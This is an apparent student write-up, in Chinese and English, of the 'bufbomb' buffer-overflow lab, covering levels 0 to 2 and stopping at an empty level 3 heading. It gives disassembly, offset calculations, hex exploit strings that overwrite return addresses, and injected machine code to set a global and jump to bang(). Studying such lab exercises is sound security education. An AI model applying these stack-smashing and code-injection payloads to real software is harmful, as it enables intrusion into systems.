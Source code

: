 # Bufbomb

实验整体思路为，在给定的32位程序-bufbomb输入溢出内容，达到改变程序原有执行顺序。

网上也有相同内容，但反汇编结果不同。我们用bufbomb来做实验，bufbomb on the internet 可以用来做参考。

## level 0
首先通过 `objdump -d bufbomb > buf_asm` 导出bufbomb反汇编文件。

网络流传的一套反汇编结果
```asm
08048c04 <getbuf>:
 8048c04:	55                   	push   %ebp
 8048c05:	89 e5                	mov    %esp,%ebp
 8048c07:	83 ec 38             	sub    $0x38,%esp
 8048c0a:	8d 45 d8             	lea    -0x28(%ebp),%eax
 8048c0d:	89 04 24             	mov    %eax,(%esp)
```
**ebp** 压栈，**esp** 指向 **ebp**，**esp** 减 *0x38* 开出栈空间，**eax** 参数地址指向 **ebp** 加 *0x28*。    
所以整个输入栈为：

>40字节 + ebp + ret 地址 = 40 + 4 +4 = 48字节。


The disassembly result of our bufbomb.
```asm
08048ed2 <getbuf>:
 8048ed2:   83 ec 3c                sub    $0x3c,%esp
 8048ed5:   8d 44 24 10             lea    0x10(%esp),%eax
 8048ed9:   89 04 24                mov    %eax,(%esp)
```
There is no **ebp** register in this disassembly program，估计哪位改了改。    
Let's go! **esp** sub *0x3c*，**eax** point to **esp** plus *0x10* equal to *0x2c*，    
So the distance form **eax** to ret is：    

>44bytes + ret address = 44 + 4 = 48bytes

We get the same result 48.

Finally, according to your own situation，turn the adress to the address of _somke()_ function： `08048ccc <smoke>:`

十六进制结果为：
```
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
cc 8c 04 08
```
终端返回：
> Userid: hanggi    
 Cookie: 0x11c1be21    
 Type string:Smoke!: You called smoke()    
 VAILD    
> NICE JOB!


## level 1
在这个level，我们的任务是调用 *fizz()* 函数。但是fizz需要一个参数，当这个参数等于你的cookie时，才能通过升级。

Let's use the following command to get our cookie.
```bash
$ ./makecookie hanggi
```
I got the value of *0x11c1be21*.


这个是网上流行的一个版本：
```asm
0804906f <fizz>:
 804906f:	55                   	push   %ebp
 8049070:	89 e5                	mov    %esp,%ebp
 8049072:	83 ec 18             	sub    $0x18,%esp
 8049075:	8b 45 08             	mov    0x8(%ebp),%eax
 8049078:	3b 05 e4 c1 04 08    	cmp    0x804c1e4,%eax
```
（这里可以参考网上的内容）

这是我们的版本：
```asm
08048cf3 <fizz>:
 8048cf3:	83 ec 1c             	sub    $0x1c,%esp
 8048cf6:	8b 44 24 20          	mov    0x20(%esp),%eax
 8048cfa:	3b 05 0c d1 04 08    	cmp    0x804d10c,%eax
```
因为我们不是call fizz函数，而是直接 jmp 到fizz，因此程序没有自动push返回地址入栈，所以 **esp** 在上一题返回地址所在位置的 *+4* 的位置。
也就是说，进入fizz的时候， **esp** 指向了ret address + 4 的单元。
从代码可以看到 **esp** 减 *0x1c*，然后参数寄存器获取 **esp** 加 *0x20* 的内容作为与cookie 比较的值，我们只需把这一地址的值改为我们的cookie就可以了。

十六进制结果为：
```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
f3 8c 04 08
00 00 00 00
21 be c1 11
```
终端返回：
> Userid: hanggi    
 Cookie: 0x11c1be21    
 Type string:Fizz!: You called fizz(0x2a50279f)    
 VAILD    
> NICE JOB!


## level 2
这一级别与上一级别的不同是，上一级别所要改变的参数位置离我们输入栈很近，我们可以通过更多溢出覆盖参数值。但是这一题里，所要对比的参数比较远，所以必须添加我们自己的指令，以达到更改目标变量的目的。

我们需要将global_value改成我们的cookie。    
通过 `objdump -D bufbomb | less`获得global_value地址，

```asm
0804d104 <global_value>:
 804d104:       00 00
```
目前 *global_value* 的值为0，也可以看到cookie变量的地址，程序运行后会变为我们的cookie值。

*bang()* 函数如下(网络版省略)：
```asm
08048d4c <bang>:
 8048d4c:	83 ec 1c             	sub    $0x1c,%esp
 8048d4f:	a1 04 d1 04 08       	mov    0x804d104,%eax
 8048d54:	3b 05 0c d1 04 08    	cmp    0x804d10c,%eax
```

攻击指令如下：
```asm
movl $0x11c1be21, 0x0804d104
pushl 0x08048d4c
ret
```
由于是Assembly code 不需要考虑 little endian的问题,    
先将 *global_value* 用 move 赋值为 cookie （*0x08048d4c* 前不加$ 表示地址），
然后将 *bang()* 方程地址 *0x08048d4c* 写给esp，再执行ret指令时，程序自动跳入bang

用 `gcc -m32 -c level2_p.s` 将代码编译成机器码，    
再用 `objdump -d level2_p.o` 读取。
```asm
00000000 <.text>:
   0:	c7 05 04 d1 04 08 21 	movl   $0x11c1be21,0x804d104
   7:	be c1 11
   a:	68 4c 8d 04 08       	push   $0x8048d4c
   f:	c3                   	ret    
```
把代码抄入文件，    

最后还要使用GDB获取输入内容存放的地址作为 ret 指令的目标地址。
```asm
$gdb bufbomb
(gdb) b *0x8048ed9           (在地址0x8048c0d设置断点)
(gdb) r xx -u hanggi         (随便输入点字符让程序运行到断点位置)
(gdb) p /x $eax              (以十六进制数字形式打印%eax中的内容)
```
十六进制结果为：
```
c7 05 04 d1
04 08 21 be
c1 11 68 4c
8d 04 08 c3
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
78 3b 68 55
```
终端返回：
> Userid: hanggi    
 Cookie: 0x11c1be21    
 Type string:Bang!: You set global_value to 0x11c1be21    
 VAILD    
> NICE JOB!


## level 3


